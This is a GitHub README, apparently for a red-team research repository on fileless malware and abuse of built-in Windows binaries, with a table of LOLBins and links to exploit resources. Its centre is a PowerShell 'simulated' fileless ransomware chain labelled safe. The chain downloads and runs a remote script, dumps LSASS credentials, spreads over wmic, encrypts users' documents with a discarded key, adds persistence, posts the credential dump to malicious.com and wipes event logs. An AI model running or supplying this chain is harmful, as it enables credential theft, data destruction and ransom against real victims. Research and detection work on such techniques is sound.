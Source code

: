 

# NSFW: Fileless Polymorphic Hybrid Malware & LOLBins Research

**Repository:** `P1rat3R00t/NSFW`  
**Purpose:** Educational cybersecurity research into advanced threat techniques, focusing on fileless malware and Living-Off-the-Land Binaries (LOLBins).

---

## ⚠️ Legal & Ethical Notice

> **This repository is strictly for educational, academic, and controlled research lab use.**  
> **Never deploy or test these techniques on unauthorized or production systems. Misuse may violate laws, ethics, and professional standards.**

---

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---

## 🧠 Overview: Fileless Malware & LOLBins

- **Fileless malware** operates entirely in memory, avoiding disk writes to evade detection by antivirus and EDR solutions.
- **LOLBins** (Living Off the Land Binaries) are legitimate Windows binaries abused by attackers for stealthy, malicious operations. Their trusted status makes detection more challenging.

---

## ⚙️ Common LOLBins and Abuse Patterns

| LOLBin                      | Abused For                | ATT&CK Tactics                   |
|-----------------------------|---------------------------|----------------------------------|
| `rundll32.exe`              | DLL execution             | Code execution, EDR bypass       |
| `mshta.exe`                 | Run HTA payloads          | Script execution, sandbox evasion|
| `regsvr32.exe`              | Load COM DLLs             | Fileless execution, C2 proxy     |
| `wmic.exe`                  | Remote command execution  | Process launch, lateral movement |
| `cmd.exe` / `powershell.exe`| Script runners            | Payload staging, persistence     |
| `msbuild.exe`               | Inline C# compile/exec    | Fileless malware loading         |
| `certutil.exe`              | Download/decode files     | Exfiltration, staging            |
| `bitsadmin.exe`             | Remote file fetch         | Delivery, task persistence       |
| `schtasks.exe`              | Task scheduling           | Privilege escalation, persistence|
| `esentutl.exe`              | Copy/exec payloads        | Stealth ops, exfiltration        |

---

## 🧬 Simulated Kill Chain: 100% Fileless Ransomware (Lab Example)

*Technique mapping via [MITRE ATT&CK](https://attack.mitre.org/)*

> **Disclaimer:** The following PowerShell sequence is a synthetic, safe example for red team development in a secure lab. **Never execute outside a controlled environment.**

<details>
<summary>🔐 Click to expand PowerShell Simulation Example</summary>

```powershell
# 🎯 Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 Privilege Escalation (T1548)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 🧪 Credential Access (T1003.001)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 🔍 Discovery (T1082)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select Name, MacAddress, Status
Write-Output $sysInfo; Write-Output $networkInfo

# 🌐 Lateral Movement (T1021.001)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 💣 Impact: File Encryption (T1486)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 📌 Persistence (T1547.001)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1"
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 📤 Exfiltration (T1041)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 🧹 Defense Evasion (T1070)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

</details>

---

## 🖥️ TeamViewer as a RAT: Summary

TeamViewer, a legitimate remote desktop tool, can be abused as a Remote Access Trojan (RAT) through weak configurations, credential theft, or exploitation of software vulnerabilities.

---

## 🚀 Getting Started

1. **Clone the repository:**
   ```bash
   git clone https://github.com/P1rat3R00t/NSFW.git
   cd NSFW
   ```
2. **Review all code and scripts before executing anything.**
3. **Set up a safe, isolated lab environment** (physical or virtual) before conducting any testing.

---

## 🤝 Contributing

Contributions for improving documentation, research, and detection techniques are welcome!  
Please open an issue or pull request.  
**Do not submit or request real malware samples.**

---

## 🧭 Additional Resources

- 🛠️ [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
- 🧬 [LOLGEN – Generate LOLBin Abuse Chains](https://lolgen.hdks.org/)
- 🔍 [MITRE ATT&CK: S0697](https://attack.mitre.org/software/S0697/)
- 💥 [PrintNightmare Technical Dive](https://itm4n.github.io/printnightmare-not-over/)
- 💀 [Print Spooler Exploit Overview](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)
- 🔗 [DLL Injection Reference](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- 🦠 [Fileless Malware on Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)
- 🖨️ [Printer Driver Exploit Repo](https://github.com/jacob-baines/concealed_position)

---

## 🛡️ Final Note

This repository is for cybersecurity researchers, malware analysts, and red teamers.  
**Do not use for malicious purposes or outside legal boundaries. Always comply with your country’s laws and organizational policies.**


